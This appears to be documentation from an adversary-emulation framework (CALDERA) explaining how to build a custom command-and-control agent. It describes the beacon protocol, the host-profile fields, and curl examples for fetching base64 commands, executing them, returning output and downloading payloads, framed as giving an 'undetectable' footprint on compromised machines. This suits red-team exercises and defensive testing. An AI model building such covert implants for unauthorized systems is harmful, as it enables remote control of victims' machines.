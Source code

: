 How to Build Agents
================

Building your own agent is a way to create a unique - or undetectable - footprint on compromised machines. Our
default agent, 54ndc47, is a full representation of what an agent can do. This agent is written in GoLang and offers
an extensible collection of command-and-control (C2) protocols, such as communicating over HTTP or GitHub Gist. You can
extend 54ndc47 by adding your own C2 protocols in place or you can follow this guide to create your own agent 
from scratch.

## Types of agents

There are 2 unique types of agents. Determining which one you want is your first step:

1) Direct communication between agent-and-server. HTTP communication is an example.
2) Indirect communication between agent-and-server. Using a trusted 3rd party, like GitHub Gists, is an example.

## Building a direct agent

Start by getting a feel for the HTTP(S) agent endpoints, which are located in the rest_api.py module.
```
POST  /beacon 
POST  /result
```
### Part #1

Start by writing a POST request to the /beacon endpoint. 

In your agent code, create a flat JSON dictionary of key/value pairs and ensure the following properties are included
as keys. Add values which correlate to the host your agent will be running on. Note - all of these properties are
optional - but you should aim to cover as many as you can.

| Key           | Value  | Notes |
| :------------- |:------------- |:-------------|  
| server        | The location (IP or FQDN) of the C2 server    | |
| platform      | The operating system | The platform is evaluated against the platform field of each ability. Currently you can use windows, darwin or linux |
| host          | The hostname of the machine | |
| username      | The username running the agent | |
| architecture  | The architecture of the host. | |
| executors     | A list of executors allowed on the host | Executors are evaluated against the executor block of each ability. Currently, you can use sh, cmd, psh and pwsh |
| privilege     | The privilege level of the agent process, either User or Elevated | Privilege is evaluated against the optional privilege block of each ability file |
| pid           | The process identifier of the agent | |
| location      | The location of the agent on disk | |
| exe_name      | The name of the agent binary file | |

At this point, you are ready to make a POST request with the profile to the /beacon endpoint. You should get back:

1) The recommended number of seconds to sleep before sending the next beacon
2) The recommended number of minutes (watchdog) to wait before killing the agent, once the server is unreachable (0 means infinite)
3) A list of instructions - base64 encoded - which will be empty.
```
profile=$(echo '{"server":"http://127.0.0.1:8888","platform":"darwin","executors":["sh"]}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 59, "watchdog": 0, "instructions": "[]"}
```

> The paw property returned back from the server. This represents a unique identifier for your new agent. Each
time you call the /beacon endpoint without this paw, a new agent will be created on the server - so you should ensure
that future beacons include it.

You can now navigate to the CALDERA UI, click into the agents tab and view your new agent. 

### Part #2

Start an operation against your agent, selecting to keep the operation alive forever. 

> If you did not include a platform or executors then the operation will not be able to assign abilities to the agent. 

Re-run the call to /beacon as above, this time including your paw:
```
profile=$(echo '{"paw":"dcoify"}' | base64)
curl -s -X POST -d $profile localhost:8888/beacon | base64 --decode
...{"paw": "dcoify", sleep": 24, "watchdog": 0, "instructions": "[
    {"id":"110300-895546","sleep":6,"command":"ZmluZCAvVXNlcnM...", "executor":"sh", "timeout :60, "payload":""},
    ...
    ...
]"}
```

You should get a full list of instructions, each containingn:

* **id**: The link ID associated to the ability
* **sleep**: A recommended pause to take after running this instruction
* **command**: A base64 encoded command to run
* **executor**: The executor to run the command under
* **timeout**: How long to let the command run before timing it out
* **payload**: A payload file name which must be downloaded before running the command, if applicable

Now, you'll want to revise your agent to loop through all the instructions, executing each command
and POSTing the shell response to the /result endpoint. 
```
data=$(echo '{"id":$id, "output":$output, "status": $status, "pid":$pid}' | base64)
curl -s -X POST -d $data localhost:8888/result
```

The POST details are as follows:

* **id**: the ID of the instruction you received
* **output**: the base64 encoded output from running the instruction
* **status**: the status code from running the instruction. If unsure, put 0.
* **pid**: the process identifier the instruction ran under. If unsure, put 0.

Once all instructions are run, the agent should sleep for the specified time in the beacon before calling the /beacon 
endpoint again. This process should repeat forever. 

### Part #3

Inside each instruction, there is an optional *payload* property that contains a filename of a file to download
before running the instruction. To implement this, add a file download capability to your agent, directing it to
the /file/download endpoint to retrieve the file:
```
payload='some_file_name.txt"
curl -X POST -H "file:$payload" http://localhost:8888/file/download > some_file_name.txt
```

### Part #4

You should implement the watchdog configuration. This property, passed to the agent in every beacon, contains
the number of minutes to allow a dead beacon before killing the agent. 


